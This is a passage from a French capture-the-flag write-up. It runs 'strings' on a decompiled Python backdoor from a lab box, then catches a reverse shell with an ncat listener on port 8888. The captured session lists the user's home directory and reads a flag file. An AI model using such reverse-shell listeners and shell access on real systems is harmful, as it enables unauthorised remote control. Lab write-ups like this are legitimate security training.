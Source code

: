 En théorie oui, une fois l'extraction passée, la décompilation ne devrait pas poser de problèmes sauf que [uncompyle6](https://github.com/rocky/python-uncompyle6) n'a pas voulu faire le job.  

Pas bien grave, on peut faire un *strings* sur le fichier pyc obtenu :  

```plain
WELCOME TO BACKDOORt 
-------------------s 
+++++++++++++++++++s 
===================t 
mrrobott 
elliots 
USERNAME : s 
PASSWORD : s 
Worng Username Or Password !s 
\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\s! 
User has been identified, Welcomes? 
###############################################################s 
TH3 H!N7s> 
Do you know python-reverse-shell client/server socket program?s* 
If IP_Address is 172.18.0.2, use port 9999s* 
If IP_Address is 172.18.0.3, use port 8888s 
Remember 'PATIENCE' is the KEYs 
Ahh! Come On!...s 
Let's try AGAIN!!!!s 
Press Enter! N( 
Falset 
completet 
usert 
raw_inputt 
usernamet 
passwordt
```

Ok donc une machine doit tenter d'établir un reverse shell sur les adresses mentionnées. Nous on est actuellement sur 172.18.0.3 donc il faut rapatrier [un Ncat static](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat) puis écouter sur le port 8888 :  

```plain
$ ncat -v -l -p 8888 
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat ) 
Ncat: Listening on :::8888 
Ncat: Listening on 0.0.0.0:8888 
Ncat: Connection from 172.18.0.1. 
Ncat: Connection from 172.18.0.1:40102. 
id 
uid=1001(docksec) gid=1001(docksec) groups=1001(docksec) 
/home/docksec> ls -al 
total 52 
drwxr-xr-x 7 docksec docksec 4096 Jul 30  2020 . 
drwxr-xr-x 4 root    root    4096 Jul 28  2020 .. 
-rw------- 1 docksec docksec 1045 Jul 30  2020 .bash_history 
-rw-r--r-- 1 docksec docksec  220 Jul 28  2020 .bash_logout 
-rw-r--r-- 1 docksec docksec 3771 Jul 28  2020 .bashrc 
drwx------ 2 docksec docksec 4096 Jul 29  2020 .cache 
drwx------ 3 docksec docksec 4096 Jul 29  2020 .gnupg 
drwxrwxr-x 3 docksec docksec 4096 Jul 28  2020 .local 
-rw-r--r-- 1 docksec docksec  807 Jul 28  2020 .profile 
drwx------ 2 docksec docksec 4096 Jul 29  2020 .secret 
-rw-rw-r-- 1 docksec docksec   66 Jul 29  2020 .selected_editor 
drwx------ 2 docksec docksec 4096 Jul 29  2020 .ssh 
-r-------- 1 docksec docksec  318 Jul 28  2020 user1.txt 
/home/docksec> cat user1.txt 
 _______ __   __ ___ ___     _______  
|       |  |_|  |   |   |   |       | 
|  _____|       |   |   |   |    ___| 
```